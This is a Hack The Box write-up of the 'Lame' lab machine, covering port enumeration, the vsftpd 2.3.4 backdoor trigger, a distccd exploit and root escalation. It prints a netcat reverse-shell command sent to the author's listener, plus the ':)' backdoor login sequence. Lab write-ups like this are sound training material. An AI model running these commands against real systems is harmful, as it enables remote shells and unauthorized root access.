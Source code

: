 ```yaml
---
layout: single
title: Lame Writeup
date: '2019-12-17 10:38:21'
tags:
- hack-the-box
classes: wide
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2019/2019-12-17-lame-writeup/lame.png
    text: "https://app.hackthebox.eu/machines/1"
typora-copy-images-to: ../../images/posts/2019/${filename}/
---
```

A very easy box, though a recent Kali upgrade broke a bunch of tools that meant it took longer than it should have.…

## Enumeration

Starting with Autorecon we find a bunch of ports open.

- FTP (21)
- SSH (22)
- SMB (139 & 445)
- Distccd (3632)

At this point I was having trouble with a SMBMap and the SMB NMAP scripts due to some Kali updates and some scripts moving to Python 3 but trying to import incompatible modules. This meant I didn't really look at SMB, which has an easy vulnerability to exploit, especially if you use Metasploit, but I took a more interesting route instead.

### VSFTPD

From NMAP we can see that the FTP service is running VSFTPD 2.3.4:  
`21/tcp open ftp syn-ack ttl 63 vsftpd 2.3.4`

This version has an infamous [backdoor](https://en.wikipedia.org/wiki/Vsftpd) that you can trigger by sending a **:)** in the USER command. I tried this but found that the server seemed to have a firewall and so I couldn't connect to the backdoor on port 6200.

## Initial Compromise

After getting nowhere with VSFTPD I took a look at Distccd. The NMAP output showed that a script had determined that the service was vulnerable to distcc-cve2004-2687. Though there was a Metasploit module for this I took the hard route and had a look around for a standalone script to exploit this, or failing that I was going to recode the Metasploit module in Python.

I found a [script](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855) that seemed to do the job.

I ran this with `./distcc.py -t 10.10.10.3 -c "nc -e /bin/bash 10.10.14.11 1234&"`
with a listener started with the usual `nc -lvp 1234`

This got me a shell as the `daemon` user. I then moved to `/home` and found the directory `makis`. Looking inside I found I could access user.txt and grabbed the key.

## Root Escalation

Running a PS I could see that vsftpd was running as root, so I wondered if I could now connect to the backdoor port if triggered.  
I telnetted to FTP on port 21 and ran

    USER BOB:)
    PASS ssss

I then did `nc localhost 6200` from my `daemon` shell on the server and grabbed myself a root shell.
